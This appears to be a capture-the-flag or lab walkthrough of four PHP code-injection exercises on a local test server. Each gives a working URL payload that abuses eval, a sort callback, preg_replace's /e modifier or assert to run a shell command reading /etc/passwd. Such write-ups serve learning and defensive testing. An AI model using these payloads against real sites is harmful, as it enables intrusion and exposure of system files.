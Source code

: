 # Code Injection

## 1

In this example, the input is simply wrapped inside an `eval` call.

`http://localhost:31337/codeexec/example1.php?name=%22.system%28%22/bin/cat%20/etc/passwd%22%29.%22`

## 2

This gets a little more complex, as we have to manipulate a callback to include the string command we want as an argument.

`http://localhost:31337/codeexec/example2.php?order=name, system('/bin/cat%20/etc/passwd')`

## 3

This is a really cool one that I didn't know about.

`http://localhost:31337/codeexec/example3.php?new=system%28%22/bin/cat%20/etc/passwd%22%29&pattern=/sloth/e&base=sloth`

The key is in the `e` modifier passed in to `preg_replace`, which causes the result to be evaluated as PHP code.

Explanation:

https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace

## 4

In this example, the GET parameter `name` is passed as a string to `assert`. When a string is passed to `assert`, it is evaluated as PHP code, making it effectively the same as `eval`.

`http://localhost:31337/codeexec/example4.php?name='.system("/bin/cat%20/etc/passwd").'`
